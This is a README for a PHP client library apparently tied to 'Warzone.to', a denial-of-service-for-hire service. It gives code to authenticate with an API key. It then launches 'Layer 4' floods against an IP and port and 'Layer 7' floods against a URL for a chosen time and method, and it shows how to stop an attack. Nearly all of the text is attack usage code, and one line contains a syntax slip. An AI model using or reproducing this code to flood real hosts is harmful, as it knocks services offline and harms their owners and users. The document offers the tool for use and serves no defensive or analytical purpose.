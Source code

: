 # Warzone.to API
Sample API usage of Warzone.to

## Requirements
PHP version 5.x (+).<br/>
Libcurl package.

## L4/L7 Methods Syntaxe
Available here : https://warzone.to/methods

## Authentication
```php
require 'API.php';
// UserID and API Key generated from API Manager website.
$userID = "12";
$apiKey = "ABCD-123";
$api = new API($userID, $apiKey);
```

## Layer 4 Attack
```php

$host = "1.1.1.1";
$port = 80;
$time = 15;
$method ="1;

/* Parameters : IPv4 , Port , Time , Method */
$response = $api->startL4($host, $port, $time, $method);
```
## Layer 7 Attack
```php

$host = "https://example.com/";
$time = 15;
$method = 5;

/* Parameters : URL , Time , Method */
$response = $api->startL7($host, $time, $method);
```
## Stop Attack
```php
/* Parameters : Host. */
$response = $api->stopAttack("1.1.1.1");
```

## API Response
```php
/* Echo Response Status */
echo $response->status; // Get API response.

/* Echo Message */
echo $response->message; // Get Message.
```
